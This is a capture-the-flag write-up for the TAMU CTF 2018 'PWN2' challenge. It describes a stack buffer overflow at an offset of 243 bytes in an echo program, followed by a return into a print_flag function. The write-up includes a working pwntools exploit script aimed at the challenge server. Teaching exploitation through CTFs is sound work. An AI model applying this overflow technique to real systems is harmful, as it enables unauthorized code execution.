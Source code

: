 ```yaml
---
author: zangobot
ctf: TAMU CTF 2018
challenge: PWN2
categories: [pwn]
tags: [ ctf, springchicken, challenge ]
layout: writeup
---
```

pwn2 asks the user to enter a sentence and it will reply with the same message.

```
I just love repeating what other people say!
I bet I can repeat anything you tell me!

stardibistengodelmisticosoledeimoscardinideltacamorodimontorsi

stardibistengodelmisticosoledeimoscardinideltacamorodimontorsi
```

My intuition is suggesting me to mess with the length of the input string.

After some trials, I found that with a string longer than 243 characters, the program halts in [SIGSEGV](https://en.wikipedia.org/wiki/Segmentation_fault).

This time, the buffer is long enough for a shellcraft... if only the NX bit were disabled.

I can't proceed in that direction. Should I use ROP?

Why the hell? There is the `print_flag` function in the binary! As regards ASLR and canary, same as [pwn1](/pwn/2018/02/25/pwn1.html), they are both disabled.

So, the exploit is:

```python
from pwn import *

OFFSET = 243
shell = p32(0x0804854b)
exploit = 'A'*OFFSET + shell
rem = remote('pwn.ctf.tamu.edu', 4322)
rem.sendline(exploit)
rem.interactive()

```


Flag captured :-D
